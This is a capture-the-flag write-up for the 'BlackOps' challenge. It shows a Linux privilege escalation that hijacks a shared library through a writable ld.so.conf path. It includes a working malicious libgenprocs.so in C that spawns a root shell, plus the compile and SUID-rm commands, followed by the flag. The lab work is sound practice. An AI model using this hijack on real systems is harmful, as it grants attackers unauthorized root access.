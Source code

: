 # BlackOps

### Category

System

### Description

You asked a friend to set you up with a few samples of http server in different languages for you to test out. He opened an access to one of his machines. He didn't give you admin access, but maybe there is a way to play a trick on him ;)

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

First thing we notice, is the `servers` folder. There is the following note in it:
```
Hi !

Here is the servers sample you ordered. I had troubles with some libraries on a few test systems. Removing them does the trick for now, until I find a fix.
For security reasons, you can't edit any files, but I copied you an SUID enabled copy of the rm binary, if you need to remove files in order to run the project.

Cheers
```
So we have a SUID rm binary. GTFObins does not reference a way to elevate privileges with the rm binary, so there is little chance that this alone is the way to root.

Let's check if there are other SUID enabled binaries.
```
$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/home/user1/servers/utils/restart_servers
/home/user1/servers/rm
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
```

`/home/user1/servers/utils/restart_servers` is in the same folder, let's check it out.

```
$ file restart_servers 
restart_servers: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=037d8a491f80ebc4daa6f9c41815f0b3d49cef82, stripped
$ ./restart_servers 
[*] Cleaning all servers
	[*] Killing server server.js
	[*] Killing server server.go
	[*] Killing server server.py
[*] All servers cleaned
[*] Restart services
[*] Services restarted
```
Based on the binary output, it's used to kill the servers, free the used ports, and restart the servers.

Let's check what is going on when the binary is ran. To achieve this, I'm going to us the pspy binary.

```
scp -P 22 pspy64s user1@localhost:~
```

Let's run it and check the processes.

```
2022/05/26 18:30:06 CMD: UID=0    PID=418    | ./restart_servers 
2022/05/26 18:30:06 CMD: UID=0    PID=419    | sh -c /sbin/ldconfig 
2022/05/26 18:30:06 CMD: UID=0    PID=420    | /bin/sh /sbin/ldconfig 
2022/05/26 18:30:06 CMD: UID=0    PID=421    | /bin/kc 
2022/05/26 18:30:06 CMD: UID=0    PID=422    | /usr/bin/pkill server.js 
2022/05/26 18:30:06 CMD: UID=0    PID=423    | /usr/bin/pkill server.go 
2022/05/26 18:30:06 CMD: UID=0    PID=424    | /usr/bin/pkill server.py 
2022/05/26 18:30:06 CMD: UID=0    PID=427    | /usr/bin/python3 /home/user1/servers/src/server.py 
2022/05/26 18:30:06 CMD: UID=0    PID=426    | /home/user1/servers/src/server.go 
2022/05/26 18:30:06 CMD: UID=0    PID=425    | /usr/bin/node /home/user1/servers/src/server.js
```
There are a few things going on here. Our binary runs other processes:
 - ldconfig: configure dynamic linker run-time bindings
 - kc: ???
 - pkill: kills a process by mathcing the name
 - server.py
 - server.go
 - server.js

If you try to run /bin/kc, you'll understand that the process tree looks like this:
```
restart_servers
├── ldconfig
├── kc
    └─ pkill
├── server.py
├── server.js
└── server.go
```

Every call is made using the absolute path, so path injections won't be an option here.

But `ldconfig` is a very good hint. It has probably something to do with shared libraries.

```
$ ldd /bin/kc
	linux-vdso.so.1 (0x00007ffcb47e3000)
	libgenprocs.so => /home/user1/servers/libs/libgenprocs.so (0x00007f32a91b0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a8dbf000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f32a95b4000)
```
The `kc` binary (kill connection) uses a shared library `/home/user1/servers/libs/libgenprocs.so`. The folder `/home/user1/servers/libs/` is not writable by our current user.

Let's find out, how `kc` knows where to look for the library. There are a few ways to indicate the location of a dynamic shared library. Some of then are using environment variables, like `LD_LIBRARY_PATH`. We have no indication that such variables are kept during our call at the SUID binary.

Another way is to reference the path in `/etc/ld.so.conf`.

```
$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf
$ ls /etc/ld.so.conf.d/
libc.conf  servers.conf  x86_64-linux-gnu.conf
$ cat /etc/ld.so.conf.d/servers.conf 
/home/user1/servers/libs/
/home/user1/
```
So binaries will among other things look for the shared libraries in `/home/user1/servers/libs/` and `/home/user1/` folders. The second one is our home directory, so writable by us.

Before writing the exploit, we need to figure out the name of the function that `kc` calls.

A simple strings will to the job.
```
$ strings libgenprocs.so 
__gmon_start__
_init
_fini
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
__cxa_finalize
genprocs <-----
_edata
__bss_start
_end
...
```

Let's write a generic library hijacking exploit...
```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void genprocs() {
        printf("[%] Running exploit\n");
        setreuid(geteuid(), geteuid());
        execve("/bin/sh", 0, 0);
}
```
...and compile it.
```bash
gcc -fPIC -shared -o libgenprocs.so exploit.c
```

Last thing is to get rid of the legitimate library using the SUID rm binary.

```
$ servers/rm servers/libs/libgenprocs.so 
```

We don't have to worry about relinking, because `ldconfig`  is called as root when running `restart_servers`.

```
$ ./restart_servers 
[*] Cleaning all severs
[%] Running exploit
# id
uid=0(root) gid=1000(user1) groups=1000(user1)
```

### Flag

```
Hero{h1j4cked_l1k3_1n_Bl4ck_0ps}
```

